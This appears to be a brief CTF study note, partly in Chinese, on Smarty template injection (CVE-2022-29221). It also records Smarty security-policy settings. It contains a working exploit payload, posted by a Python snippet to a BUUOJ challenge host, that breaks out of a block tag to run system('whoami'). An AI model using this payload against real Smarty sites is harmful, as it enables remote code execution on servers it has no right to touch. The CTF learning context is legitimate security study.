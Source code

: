 tags:: CTFWEB/SSTI/Smarty

- # 打CVE
	- ```python
	  url = "http://e76e32ca-0905-43bd-8b92-bb5a027246b2.node4.buuoj.cn:81/index.php"
	  
	  r = base_post(url, data = {
	      "data": "{block name=\"poc*/system('whoami');/*\"}ABC{/block}"
	  }, cookies = {
	      "login": "114"
	  })
	  print(r.text)
	  ```
- # 施工中
	- smarty安全设置
		- ```php
		  $smarty = new Smarty();
		  $my_security_policy = new Smarty_Security($smarty);
		  $my_security_policy->php_functions = null;
		  $my_security_policy->php_handling = Smarty::PHP_REMOVE;
		  $my_security_policy->php_modifiers = null;
		  $my_security_policy->static_classes = null;
		  $my_security_policy->allow_super_globals = false;
		  $my_security_policy->allow_constants = false;
		  $my_security_policy->allow_php_tag = false;
		  $my_security_policy->streams = null;
		  $my_security_policy->php_modifiers = null;
		  $smarty->enableSecurity($my_security_policy);
		  ```
	- 测试
		- `$smarty`变量仍然可以使用
			- `{$smarty.now}`
	- CVE-2022-29221
	-